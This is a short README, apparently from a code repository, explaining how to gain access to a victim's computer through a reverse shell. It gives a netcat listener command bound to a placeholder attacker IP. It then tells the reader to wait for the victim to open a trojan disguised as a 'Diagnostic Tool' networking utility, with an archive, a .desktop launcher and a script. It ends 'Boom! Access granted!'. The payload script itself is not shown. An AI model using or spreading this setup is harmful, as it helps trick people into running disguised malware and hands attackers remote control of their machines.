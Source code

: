 # Gain access to victim's computer with reverse shell

1. On **attacker's** computer (Linux with netcat installed), run the following if
    - victim is using linux (**our case**)
    ```shell
    $ sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```


2. Wait for the victim to run the 'Diagnostic Tool' executable file: 
    - Linux:
        - [User Guide PDF](./PDF%20Documents/User%20guide.pdf)
        - Download this and uncompressed it: [NetworkingTool.tar.gz](./NetworkingTool.tar.gz)
        - Source code:
            - [NetworkTool.desktop](./NetworkTool.desktop) (executable), together with
            - [script.sh](./script.sh)


3. Boom! Access granted!
